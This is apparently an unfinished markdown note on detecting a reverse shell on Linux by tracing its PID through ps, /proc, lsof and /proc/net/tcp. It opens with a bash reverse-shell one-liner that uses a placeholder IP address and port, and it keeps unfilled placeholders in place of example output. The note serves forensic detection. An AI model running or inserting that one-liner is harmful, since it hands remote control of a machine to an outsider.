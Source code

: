 # Tracking Activity using PID
## reverse shells
```bash
bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1
```

## List processes running
```bash
ps -auxw
```
Listing the processes should allow you to see the bash shell running. The shell will have the interactive (-i) flag. In general, this isn't terribly common and is a good place to start. 

```
add example of what the output will look like from ps command
```



## Change Directory to /proc/PID of the suspicious process
```bash

cd /proc/PID
ls -al
```

```bash
show out up
```

look for exe -> /usr/bin/bash
This shows the reverse shell is connected to this executable
```bash
show out up
```



##
```bash
/proc/PID/fd
ls -al
```
you can see that stdin, stdout, and stderr are all connected to sockets and the inode number that we will see again later. This is a red flag. 
find out what those socket types are. Look for weird files open, payload dirs, etc.


## Search for file opened by this reverse shell
```bash
lsof -p PID
```
this will show the ip addresses of the remote host it has conencted to. Can also use tools like netstat or ss to see open sockets.


## check out /proc/net/tcp 
This will list all open TCP sockets and is the raw data networking tools use to show what is happening. Here we see the inode # of the open sockets and that they are connected to something with TCP.

```bash
cat /proc/net/tcp
```
This will show you the inode number that should match with the inode number shown when seeing the connection to stdin, stdout, stderr. 



### References:
 - https://x.com/craighrowland/status/1802850025443336414
 - https://library.mosse-institute.com/articles/2022/05/perform-remote-code-execution-with-the-use-of-reverse-shells/perform-remote-code-execution-with-the-use-of-reverse-shells.html
 - https://tomtietz.github.io/blog/2023/03/07/remote-shells.html
 - https://redcanary.com/blog/threat-detection/process-streams/
